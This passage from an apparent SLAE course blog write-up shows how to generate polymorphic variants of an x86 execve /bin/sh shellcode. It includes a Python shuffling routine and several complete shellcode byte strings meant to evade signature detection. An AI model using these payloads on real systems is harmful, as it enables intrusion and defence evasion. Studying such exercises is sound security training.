 {%endhighlight%}
To fulfill our constraints, we've got 20 bytes to spend in NOP equivalent
instructions. We will use the same approach as used as in the kill example.

### Shake execution

The first polymorphic strategy is to swap system call parameter position. For such a reason, we will change the init part of our assignment first solution, in order to have an indipendent init routine for EDX. This way, the number of changes we can do it, it will raise.

Let's rewrite the first block this way:

{%highlight asm%}
6a 0b                	push   $0xb
58                   	pop    %eax
31 c9                	xor    %ecx,%ecx
31 d2                	xor    %edx,%edx
{%endhighlight%}

However, since the init part is very small here and we've got only one register
to setup, there are only 3 possible shellcodes using this strategy:

{%highlight asm%}
def exec_shuffle():
    init_blk =["\\x6a\\x0b", "\\x31\\xc9", "\\x31\\xd2"];
    shuffle(init_blk);

    return "".join(init_blk)+"\\x58\\xeb\\x03\\x5b\\xcd\\x80\\xe8\\xf8\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";
{%endhighlight%}
(
![Exec polymorphic shellcodes using opcode shuffle]({{site.url}}/assets/images/exec_shuffle.png)

The other shellcode sections can't be shuffled, so this is not a wise strategy
to create different polymorphic version of our obfuscated execve shellcode.

Here there are some shellcode generated this way:

{%highlight sh%}

thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 % ./exec_me.py -s
Shellcode:  \x31\xd2\x31\xc9\x6a\x0b\x58\xeb\x03\x5b\xcd\x80\xe8\xf8\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68
Length:  25
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 % ./exec_me.py -s
Shellcode:  \x31\xd2\x6a\x0b\x31\xc9\x58\xeb\x03\x5b\xcd\x80\xe8\xf8\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68
Length:  25
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 % ./exec_me.py -s
Shellcode:  \x31\xc9\x6a\x0b\x31\xd2\x58\xeb\x03\x5b\xcd\x80\xe8\xf8\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68
Length:  25
{%endhighlight%}
